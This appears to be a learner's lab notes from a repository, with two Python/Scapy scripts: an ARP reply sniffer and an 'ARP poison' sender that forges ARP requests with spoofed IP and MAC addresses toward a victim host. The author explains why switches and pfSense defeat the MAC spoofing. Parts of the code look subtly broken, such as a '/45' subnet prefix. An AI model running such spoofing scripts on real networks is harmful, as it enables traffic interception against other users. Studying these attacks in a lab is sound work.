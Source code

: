ok, this part we using 2 scripts rening at the same time ... well the sniffer will be runnign prior but you get my point: we using
2 scripts at the same time and you see my logic behind it since im not using multithread for this yet


sniffer code  *arp_poison_sniffer_5.1.py*
```python
from scapy.all import sniff, ARP,conf,get_if_hwaddr

iface = conf.iface
MyMAC = get_if_hwaddr(iface)

ip_victim = "192.168.1.101"
fake_ip = "192.168.1.45"


def packet_handler(pkt):
    victim_mac = ""
    if ARP in pkt:
        if pkt[ARP].op == 2:
            if pkt[ARP].psrc == ip_victim and pkt[ARP].pdst == fake_ip:
                victim_mac = pkt[ARP].hwsrc
                print(f"we got it guys {victim_mac}")


sniff(filter = "arp", prn = packet_handler)
```



------------------------

poison code  *arp_poison_sender_5.py*
```python
from scapy.all import conf,ARP,sendp,Ether,subprocess,get_if_addr,get_if_hwaddr

iface = conf.iface
MyIP= get_if_addr(iface)
MyMAC= get_if_hwaddr(iface)

fake_mac= "08:00:27:aa:97:97"
fake_ip= "192.168.1.45" #must be different, but on the saem subnet as the victim's
ip_victim="192.168.1.101"




subprocess.run(  [  "sudo", "ip" , "addr" , "add" , "192.168.1.45/45" , "dev" , "eth0"   ]    )

framerequest = Ether(src = MyMAC)/ARP(op = 1 , psrc = fake_ip , pdst = ip_victim , hwsrc = MyMAC)
sendp(framerequest,iface = iface, count = 1)


framerequest = Ether(src = fake_mac)/ARP(op = 1 , psrc = fake_ip , pdst = ip_victim , hwsrc = fake_mac)
sendp(framerequest,iface = iface, count = 1)

subprocess.run ( [ "sudo","ip" , "addr" , "del" , "192.168.1.45/24" , "dev" , "eth0"  ])
```

so we run the sniffer script before the posion script, and i knwo this code has some weird parts, but this was made as i was learning this
and a thing i catch later was that i was obsessed to hide my real mac address, but here is the big thing

swtiches will drop the frame. wehn we send using ether and ARP stack and senp using a fake mac address it will be sended, no problem
and will reach if correctly provided the dest ip of the victim. but when the victim will reply the swithc will recevie that frame and say
"wait a moment this mac address (fake mac address we send earlier) it is not on my CAM table better to ask and it will broadcast
but since we dont have that mac address predefined on our OS it will not catch it, because an ARP reply is unicast for this case

even tho we change our mac address to the expected it wont work. Pfsense, as im using right now going to ban us the moment it detects 
a change. will give us an experimental ip and unable to comunciate unless we go back to the original mac address it was stored

but is a lot of work because at the end we using a mac address that we defined either real or not it will be written on the arp table
of the victim(s), so is kinda inefficient. would be different if we fro mthe begining go to the network with a mac address that the router and firewall
takes as new and we can operate fro mthere with no consequences after ending out attack.
